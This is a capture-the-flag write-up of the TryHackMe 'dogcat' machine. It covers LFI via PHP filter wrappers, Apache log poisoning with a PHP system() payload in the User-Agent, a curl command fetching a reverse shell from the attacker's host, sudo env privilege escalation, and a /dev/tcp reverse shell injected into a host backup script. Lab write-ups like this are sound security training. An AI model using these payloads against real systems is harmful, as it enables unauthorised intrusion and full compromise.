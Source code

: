 ```yaml
---
date: 2020-05-19 12:57:30
layout: post
title: "dogcat"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/dogcat/dogcat.png
optimized_image:
category: Tryhackme
tags: tryhackme,lfi
author:
paginate: false
---
```


Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.110.141
```
```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-18 22:13 IST
Nmap scan report for 10.10.184.233
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Not much of ports are open.Main target now port 80.

Running gobuster
```bash
gobuster dir -u http://10.10.110.141 -w wordlist
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/server-status (Status: 403)
/dog.php (Status: 200)
/dogs (Status: 301)
````
Requesting flag.php gives a blank page.
Clicking on any of the two buttons provided on home page of the website a image is accessed using the following url
```url
http://10.10.110.141/?view=dog[or cat] 
```
Tried local file inclusion through the view parameter.
```url
http://10.10.110.141/?view=../../../../../../../../../../etc/passwd
```

This failed as the server is attaching a .php at the end of the string provided in view.Moreover it also checks for dog or cat word in the string.

Used PHP Wrappers to get the code in flag.php.
```url
http://10.10.110.141/?view=php://filter/convert.base64-encode|read=dog/resource=flag
```
Here the filter php wrapper is used as we can use it to chain multiple filters.
The wrapper above asks the server to get flag.php(.php is appended automatically) convert it to base64(beacuse if it will give the code directly then code will get executed and we will get same page as requesting flag.php).Read filter does nothing here except letting dog or cat word in the string.

Accessing the above url we get a base64 encoded string which on decryption gives the code of flag.php
![placeholder](/writeup/assets/img/dogcat/flag1.php "flag1")

Through the same method index.php can be read.This tells that appending of .php can be stopped by using a *ext* parameter in url.
```php
#index.php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Now trying to get rce through log poisoning.
First we access any file on the server with User-Agent Header containing our malicious code.
This can be done via burpsuite or curl.
Using the following in user agent

**Payload=<?PHP echo system($_GET['y'])?>**
![placeholder](/writeup/assets/img/dogcat/burp.png "burp")

Now accessing the access.log file on the system which logs all the files being requested with the user-agent which is accessing.
So this way when access.log is fetched by the server,the php code feeded in through user-agent gets executed.

So now any code can be executed thorough the y parameter in url

```url
http://10.10.110.141/view=cats/../../../../../../../../../../var/log/apache2/access.log&ext=&y=[command] 
```

If **whoami** is passed in y then following response is recieved
![placeholder](/writeup/assets/img/dogcat/rce.png "rce")

Better shell can be acquired by uploading any php reverse shell thorugh the y parameter.

Since many commands like wget python are not present on the machine;curl can be used to upload the reverse shell.
```url
http://10.10.110.141/?view=dog/../../../../../../../../../../../../../var/log/apache2/access.log&ext=&y=curl%20http://10.9.12.192/phpshell.php%20-o%20shell.php
```
The shell used here is pentestmonkney reverse shell.

Now accessing the shell.php gives a reverse shell.
![placeholder](/writeup/assets/img/dogcat/shell.png "shell")

Second flag is present in /var/www.

**sudo -l** shows
![placeholder](/writeup/assets/img/dogcat/sudo.png "sudo")

Time for GTFObins.
Got the command from GTFObins that will give a root shell through env command.
**sudo env /bin/sh**

Got root shell and the third flag(Inside /root directory).

Running the hostname command gives a non-meaningfull string which tells that we may be still inside a container rather that the machine itself.

Enumerating through the machine , got a backup.sh file inside /opt/backup. This seems to be a script main host machine is using to create bacckup.So maybe it is runnning at some interval of time.
Edited the script to get a reverse shell.
Put a one liner reverse shell in the script
```bash
echo "#!/bin/bash" > backup.sh
echo "bash -c 'bash -i >& /dev/tcp/10.9.12.192/7777 0>&1'" >> backup.sh
```

This gave a shell on the host machine.
![placeholder](/writeup/assets/img/dogcat/host.png "host")
Found fourth flag(Inside /root/)


Got the 

